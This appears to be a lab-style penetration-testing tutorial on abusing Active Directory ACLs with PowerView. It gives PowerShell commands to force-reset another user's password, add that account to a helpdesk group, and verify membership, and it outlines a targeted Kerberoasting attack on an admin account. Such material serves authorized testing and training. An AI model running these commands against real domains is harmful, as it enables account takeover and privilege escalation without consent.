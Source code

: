 * * *

## ACL Abuse Tactics
```powershell
PS > Import-Module .\PowerView.ps1
```

### ForceChangePassword
So, first, we must authenticate as <user1> because he can force change the password of the user <user2>. We can start by opening a PowerShell console and authenticating as the <user1> user. Otherwise, we could skip this step if we were already running as this user. To do this, we can create a PSCredential object.

```powershell
# Creating a PSCredential Object
PS > $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS > $Cred = New-Object System.Management.Automation.PSCredential('<INLANEFREIGHT>\<user1>', $SecPassword) 

# Creating a SecureString Object**
PS > $user2Password = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

# Changing the User's Password
PS > Set-DomainUserPassword -Identity user2 -AccountPassword $user2Password -Credential $Cred -Verbose
```
We can see that the command completed successfully, changing the password for the target user while using the credentials we specified for the user1 that we control. 

### Add-DomainGroupMember
```powershell
# Creating a SecureString Object using user2
PS > $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS > $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\user', $SecPassword) 

# Adding user2 to the Help Desk Level 1 Group
PS > Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'user2' -Credential $Cred2 -Verbose
PS > Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members

# Confirming user2 was Added to the Group**
PS > Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```

At this point, we should be able to leverage our new group membership to take control over the user3. Now, let's say that our client permitted us to change the password of the user2, but the user3 is an admin account that cannot be interrupted. Since we have GenericAll rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's servicePrincipalName attribute to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat.
